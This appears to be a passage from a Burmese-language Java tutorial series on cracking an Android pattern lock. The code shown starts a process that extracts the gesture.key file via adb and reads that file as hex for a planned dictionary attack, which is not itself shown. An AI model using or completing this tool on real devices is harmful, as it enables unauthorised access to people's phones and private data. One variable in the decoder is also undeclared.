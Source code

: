 public void WaiferAdbChangePermission_GetGestureKey(ProcessBuilder BrighterProcess){
		Process pc;
		try {
			pc = BrighterProcess.start();
			pc.waitFor();
		} catch (IOException e) {
			e.printStackTrace();
		} catch (InterruptedException e) {
			e.printStackTrace();
		}		
	}

အထက္က Code ကေတာ့ မိတ္ေဆြတို႔အတြက္ မဆန္းေတာ့ပါဘူး၊ ေပးတဲ့ ProcessBuilder Object ကိုဖမ္း ၿပီးရင္ Process မွာ အလုပ္စတင္၊ Process မၿပီးမျခင္းေစာင့္ဆိုတဲ့အလုပ္ေတြပါ၊ ဆက္မရွင္းေတာ့ဘူး၊ ယခင္အခန္းကို ဖတ္ဖူးရင္နားလည္မယ္ မဖက္ရေသးရင္ BrighterMyanmar Posts ေတြမွာ ေက်းဇူးျပဳ ၍ ျပန္ရွာဖတ္ေပးပါ၊
အထက္ကအဆင့္အထိၿပီးရင္ေတာ့ E drive ထည္းမွာ gesture.key ဖိုင္ကို ေအာင္ျမင္စြာနဲ႔ ဆြဲထုတ္ၿပီးျဖစ္မယ္၊ ဒီေတာ့ WaiferStartWorking ရဲ့ ေနာက္ဆံုးေခၚထားတဲ့ Method ျဖစ္တဲ့ WaiferDictionaryAttackr() စတင္အလုပ္လုပ္မယ္ ၊

Dictionary Attack နဲ႔ တိုက္မယ္ဆိုတဲ့လုပ္ငန္းစဥ္မွာ လုပ္ေဆာင္ခ်က္ႏွစ္ခုပါမယ္၊ အရင္ဆံုး gesture.key ဖိုင္ထဲက hexa ကုတ္ေတြကိုဖတ္ဖို႔နဲ႔၊ ဒုတိယ အဆင့္က Hexa Code ေတြကို Dictionary နဲ႔တိုက္စစ္ဖို႔ ဒီေတာ့ WaiferDictionaryAttackr() ထဲမွာ String Variable တစ္ခုတည္ေဆာက္ၿပီး WaiferDecoder(); method က return ေပးမယ့္ တန္ဖိုး ကို assign လုပ္မယ္၊ ေအာက္ကအ တိုင္း၊

private void WaiferDictionaryAttackr() {
		String s =  WaiferDecoder();
	    }	

အထက္ကအတိုင္းဆိုရင္ WaiferDecoder() method က တန္ဖိုးတစ္ခုကို မျဖစ္မေန Return ျပန္ေပးရမယ္၊ အဲ့ဒီ့ ျပန္ေပးမယ့္တန္ဖိုးက gesture.key ထဲက hexa Code ေတြကိုဖတ္လို႔ရလာတဲ့တန္ဖိုးျဖစ္ရမယ္၊ ဒီေတာ့ WaiferDecoder() method ကိုတည္ေဆာက္ၿပီး gesture.key ဖိုင္ကိုေအာက္ကအ တိုင္းဖတ္မယ္၊

private String WaiferDecoder() {
		FileInputStream fis = null;
		 ArrayList<String>ar  = new ArrayList<String>();
	    try {
	        fis = new FileInputStream("E:\\adb\\gesture.key"); 
	        while ((i = fis.read()) != -1) {
	            if (i != -1) {		   
	                ar.add(String.format("%02X ", i));	               
	            }
	         }	       
	        fis.close();
	        } catch (FileNotFoundException e) {
	        e.printStackTrace();
	    } catch (IOException e) {
			e.printStackTrace();
		}	   
	    String str = "";
	    for(String s: ar){
	       	 str += s;
	        }
	    System.out.println(str.replaceAll(" ",""));
	   return (str.replaceAll(" ",""));
	}
